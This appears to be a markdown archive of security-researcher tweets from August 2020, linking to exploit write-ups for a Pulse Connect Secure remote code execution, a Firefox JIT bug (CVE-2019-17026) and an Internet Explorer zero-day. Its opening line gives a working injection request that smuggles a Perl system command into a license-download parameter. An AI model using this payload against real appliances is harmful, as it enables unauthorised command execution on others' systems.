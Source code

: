 https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/4HZaKORE6s
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>187</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# maxpl0it
**https://twitter.com/maxpl0it/status/1299068051044921347 _at 2020-08-27, 19:35:33_**
<blockquote>
Published my exploit for CVE-2019-17026 (Firefox JIT bug):

https://t.co/YeFsnSVYDv

No sandbox escape included but if anybody wants a challenge, chain it with CVE-2020-0674 for a neat sandbox escape on Windows!
</blockquote>

* https://github.com/maxpl0it/CVE-2019-17026-Exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>319</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1298560490197716992 _at 2020-08-26, 09:58:41_**
<blockquote>
CVE-2020-1380: Analysis of Recently Fixed IE Zero-Day  https://t.co/FKZYgry3BN  #Pentesting #Exploit #Vulnerabilities #CyberSecurity #Infosec https://t.co/Rpc1sNTdzk
</blockquote>

* https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html

<table><tr>
<td><img src="pictures/37441fe31fef62e1d8b0ca64738d58d05628ebc4f22854dd8b511202fe2e98dd.jpg" alt="37441fe31fef62e1d8b0ca64738d58d05628ebc4f22854dd8b511202fe2e98dd.jpg"></td>